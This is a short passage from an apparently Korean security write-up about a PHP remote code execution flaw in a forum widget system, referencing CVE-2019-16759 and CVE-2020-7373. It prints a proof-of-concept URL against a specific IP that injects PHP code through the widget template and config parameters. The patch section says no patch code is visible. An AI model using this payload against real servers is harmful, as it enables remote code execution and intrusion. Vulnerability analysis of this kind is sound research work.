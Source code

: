 ```
POC : http://141.164.52.207/?subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();
```
<strong>그러니 위와 같이 subWidget.template의 값으로 `widget_php`, subWidget.config의 값으로 `code:phpinfo();`로 넘겨주면 template의 값은 `widget_php`, widgetConfig.code의 값은 `phpinfo();`가 될 것 이고, widget_php 템플릿이 생성되면 widgetConfig['code']의 값은 `phpinfo();`이므로 `widget_php`에서 `CVE-2019-16759`와 동일하게 RCE가 트리거 되게 됩니다.</strong><br>

---
## *CVE-2020-7373 Patch*

<strong>패치 코드가 안 보임</strong><br>

---
